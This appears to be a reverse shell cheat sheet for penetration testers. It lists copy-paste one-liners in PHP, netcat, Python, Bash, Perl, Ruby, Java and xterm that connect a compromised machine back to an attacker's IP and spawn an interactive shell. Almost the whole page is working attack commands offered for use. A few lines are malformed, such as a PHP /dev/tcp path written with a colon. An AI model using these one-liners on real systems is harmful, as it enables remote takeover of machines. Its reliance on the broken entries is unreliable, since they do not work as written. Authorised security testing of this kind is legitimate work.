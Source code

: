 # Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
# PHP
```
php -r '$sock=fsockopen("10.18.59.236",4545);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<? php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.15:4444 0>&1'"); ?>
```
```
<?php -r '$sock=fsockopen("10.18.59.236",4444);exec("/bin/sh -i <&3 >&3 2>&3");' ?>
```
# NatCat
```
nc -e /bin/sh 10.18.59.236 2222
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.59.236 4545 >/tmp/f
```
# Python
This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.59.236",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
# Bash
```
bash -i >& /dev/tcp/10.18.59.236/4545 0>&1
```
```
0<&196;exec 196<>/dev/tcp/10.18.59.236/4545; sh <&196 >&196 2>&196
```
# Perl
```
perl -e 'use Socket;$i="10.18.59.236";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.18.59.236",4545).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
//Untested submission from anonymous reader
```
#XTerm
```
//One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

//To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

//You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
```
